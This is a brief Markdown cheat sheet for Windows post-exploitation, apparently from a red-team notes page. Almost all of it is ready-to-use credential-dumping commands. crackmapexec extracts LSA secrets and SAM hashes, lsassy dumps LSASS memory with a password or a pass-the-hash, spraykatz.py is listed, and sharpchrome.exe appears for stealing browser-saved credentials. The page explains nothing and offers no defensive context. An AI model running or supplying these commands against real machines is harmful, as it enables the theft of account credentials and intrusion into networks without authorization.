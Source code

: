 # Post-Ex Windows

## **Dump secrets**

LSA & SAM

```bash
crackmapexec smb perim_up.txt -u '<user>' -d '<domain>' -p '<pass>' --lsa
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --sam

lsassy -d '.' -u 'Administrateur' -H '<hash>' <ip>
lsassy -d <domain> -u <user> -p <pass> <ip>

./spraykatz.py -u <user> -p <password> -t <ip>
```

Browser secrets

```bash
sharpchrome.exe
```